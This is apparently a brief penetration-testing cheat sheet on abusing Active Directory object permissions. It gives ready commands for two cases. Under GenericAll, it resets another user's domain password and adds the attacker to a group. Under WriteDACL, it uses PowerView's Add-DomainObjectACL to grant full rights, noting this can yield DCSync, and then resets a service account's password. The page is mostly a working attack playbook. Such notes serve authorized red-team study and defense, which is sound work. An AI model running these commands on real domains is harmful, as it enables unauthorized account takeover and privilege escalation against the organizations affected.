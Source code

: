 # Object Security

<details>

<summary>Generic All Abuse</summary>

**Users**

If userA has generic all over userB, userA can change the password of userB

```
net user userb password1 /domain
```

**Groups**

If userA has generic all over the group `testgroup` we can just add ourselves to the group

```
net group testgroup userA /add /domain
```

</details>

<details>

<summary>WriteDACL</summary>

You can abuse the WriteDACL permission by using the `Add-DomainObjectACL` powerview method to add Generic all to this. If this DACL is the domain object, you can add DC Sync `Add-DomainObjectACL -TargetIdentity (object) -PrincipalIdentity offsec -Rights all`

{% code overflow="wrap" %}
```
Add-DomainObjectACL -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights all
```
{% endcode %}

now you can change its password

```
net user testservice2 password1 /domain
```

</details>
